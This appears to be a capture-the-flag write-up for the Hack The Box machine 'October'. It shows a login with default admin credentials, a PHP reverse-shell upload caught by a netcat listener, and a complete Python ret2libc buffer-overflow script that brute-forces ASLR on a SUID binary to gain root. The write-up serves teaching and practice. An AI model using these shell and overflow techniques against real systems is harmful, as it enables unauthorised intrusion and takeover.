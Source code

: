 ```yaml
---
title: 'HTB: October'
date: '2025-04-26'
excerpt: 'October is a fairly easy machine to gain an initial foothold on, however it presents a fair challenge for users who have never worked with NX/DEP or ASLR while exploiting buffer overflows.'
readingTime: 3
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Medium', 'Linux', 'Web', 'Pwn']
author: 'pir4cy'
coverImage: '/images/htb/covers/october-cover.png'
---
```


# October

## Info
  * IP : 10.10.10.16
  * OS : Linux
  * Difficulty: Medium

## System Enumeration
 
### Nmap

![Nmap](/images/htb/machines/October/nmap.png "Nmap")

### Dirbuster

![Dirbuster](/images/htb/machines/October/dirbuster.png "Dirbuster")

### WebPortal

![Web Portal](/images/htb/machines/October/webportal.png "Vanilla CMS")

#### Backend

![Web Backend](/images/htb/machines/October/backend.png "October Backend")


## Exploitation
 
Trying the default user and password, i.e, `admin` and `admin`, we manage to get in and see that there is a media tab.  
This opens up the possibility of a reverse shell upload.  
Since the already uploaded file is in php5, I renamed my shell from php to php5, just to ensure that I'll be successful in uploading a shell.  

![PHP Uploaded](/images/htb/machines/October/uploadphp.png "PHP Shell")

We create a netcat listener on our local machine using `nc -lvnp 1234`.  
Click on the uploaded file and view it.  

And voila! We have a shell.

### User Exposed

Simple enumeration let's us find `user.txt` and read it even though we are `www-data`.

![User Exposed](/images/htb/machines/October/userExposed.png "Exposed User")

## Privilege Escalation

Now, to obtain `root.txt`, we need to escalate our privileges to root.  

As a first step, I always use `find / -perm -4000 -type f 2>/dev/null` to find SUID binaries and luckily enough, we find `/usr/local/bin/ovrflw`.  
Running `ovrflw` tells us that it needs an input string.  
This can be exploited using a Ret2Lib Attack.  

To debug further, I downloaded the binary to my local machine using base64 conversions.  
  1. On host machine, base64 /usr/local/bin/ovrflw  
  2. Copy the output and store it in a file on your machine  
  3. Use `base64 -d <localfile.b64> > ovrflw`  
  4. chmod +x ovrflw  
  5. gdb ovrflw  

Using `pattern_create 200`, we create a unique pattern of 200 characters and pass it to ovrflw as argument  

![Segmentation Fault](/images/htb/machines/October/segfault.png "Seg Fault")  

Now we use `pattern_offset <segfault_address>` to find where the buffer overflow occured.

![Offset Found](/images/htb/machines/October/offsetFound.png "Offset Found")  

### Creating a payload

Now, to successfully perform ret2lib attack, we have to perform buffer overflow by passing it to the binary `ovrflw`.  

Required addresses:
  * System address
  * Exit address(which can be anything)
  * Address of /bin/sh

But first we have to check if ASLR is enabled. If ASLR is enabled our <libbase> address keeps on changing and if not, we can simply use the addresses as we obtain them.  

To check if ASLR is enabled, simply use `ldd /usr/local/bin/ovrflw` 2 to 3 times:

![ASLR LDD](/images/htb/machines/October/ldd.png "ASLR is enabled")  

As can be observed from the screenshot, the libbase address changes everytime we use `ldd`.  

We will proceed to create our payload accordingly.  

Select any one of the addresses for libBase. I used the first one, i.e, `libbase = 0xb75c4000`
#### Getting Required Offsets

So we know that the libbase is at `/lib/i386-linux-gnu/libc.so.6`.  

To get our offsets, we are going to use the `readelf` command.  

Step 1: For system, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
	![System Offset](/images/htb/machines/October/systemOffset.png "Offset Found")  
Step 2: For exit, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
	![Exit Offset](/images/htb/machines/October/exitOffset.png "Offset Found")  
Step 3: For the offset of /bin/sh we have to use strings, i.e, `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`
	![/bin/sh Offset](/images/htb/machines/October/binshOffset.png "Offset Found")  

Now we have all our offsets, it's time to create a payload.  

#### Creating bufferOverflow.py

```
import subprocess,struct

libBase = 0xb75c4000
system_Off = 0x00040310
exit_Off = 0x00033260
binsh_Off = 0x00162bac

system_addr = struct.pack("<I", libBase + system_Off)
exit_addr = struct.pack("<I", libBase + exit_Off)
binsh_addr = struct.pack("<I",libBase + binsh_Off)

payload = "A"*112
payload += system_addr
payload += exit_addr
payload += binsh_addr

i =0
while True:
    i+=1
    print "Attempts: " + str(i)
    subprocess.call(["/usr/local/bin/ovrflw", payload])
```

The reason we added a loop is because the `libc` address is constantly changing. Therefore, to ensure that we reach the right libc address, we keep on running our script.  

### Execution

Simply execute `python bufferOverflow.py`.  

![Overflow](/images/htb/machines/October/bufferOverflow.png "Overflow")

And we are root:

![Pwnage](/images/htb/machines/October/owned.png "Rooted")
